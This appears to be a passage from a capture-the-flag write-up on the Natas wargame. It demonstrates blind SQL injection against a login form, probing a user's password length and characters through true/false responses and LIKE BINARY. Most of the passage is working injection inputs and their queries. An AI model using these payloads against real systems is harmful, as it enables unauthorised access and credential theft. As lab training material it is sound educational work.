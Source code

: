 So now lets test the password lenght.

```text
input  : natas16" AND (SELECT LENGTH(password) FROM users WHERE username="natas16" LIMIT 1)=1#
Query  : SELECT * from users where username="natas16" AND (SELECT LENGTH(password) FROM users WHERE username="natas16" LIMIT 1)=1#
Result : false
```

so far all the passwords had a lenght of 32, so lets that that.

```text
input  : natas16" AND (SELECT LENGTH(password) FROM users WHERE username="natas16" LIMIT 1)=32#
Query  : SELECT * from users where username="natas16" AND (SELECT LENGTH(password) FROM users WHERE username="natas16" LIMIT 1)=32#
Result : true
```

now lets test the actual password  
first verify with the username

```text
Input  : natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE "a%"#
Query  : SELECT * from users where username="natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE "a%"#
Result : false
```

```text
Input  : natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE "n%"#
Query  : SELECT * from users where username="natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE "n%"#
Result : true
```

So we know this works. Now lets try the password.

```text
Input  : natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE "W%"#
Query  : SELECT * from users where username="natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE "W%"#
Result : true
```

but if we try

```text
Input  : natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE "w%"#
Query  : SELECT * from users where username="natas16" AND (SELECT password FROM users WHERE username="natas16" LIMIT 1) LIKE "w%"#
Result : true
```

this also works. This is because LIKE is case insensitive, we should use LIKE BINARY.

```text
Input  : natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "N%"#
Query  : SELECT * from users where username="natas16" AND (SELECT username FROM users WHERE username="natas16" LIMIT 1) LIKE BINARY "N%"#
Result : false
```
